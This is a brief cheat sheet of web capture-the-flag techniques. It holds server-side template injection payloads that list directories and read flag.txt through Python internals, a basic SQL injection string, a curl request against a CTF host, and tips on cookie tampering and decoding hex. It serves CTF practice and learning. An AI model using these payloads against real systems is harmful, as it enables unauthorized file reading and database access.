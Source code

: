 ## Useful things to try in web ctf challenges
---

### To check the flag file location
```py
submit?name={{request.application.__globals__.__builtins__.__import__(%27os%27).listdir()}}
```

## To read the vulnerability
```py
submit?name={{%27abc%27.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0](%27flag.txt%27).read()}}
```

## SQL INJECTION
```python
'OR'1'='1
```

## Get the flag
```python
$ curl -I https://r3qu35t-m3-fl4g.vishwactf.com -X FLAG
```

change the cookie and refresh the website it works in some cases. try observing robots.txt file of a webpage.

## Hex to ascii
```python
\x47\x75\x65\x73\x73\x20\x54\x68\x65\x20\x46\x6C\x61\x67\x73\x68\x63\x74\x66\x7B\x66\x6C\x61\x67\x7D","\x59\x6F\x75\x20\x67\x75\x65\x73\x73\x65\x64\x20\x72\x69\x67\x68\x74\x2E..
convert to hex using ascii will give the flag.
```

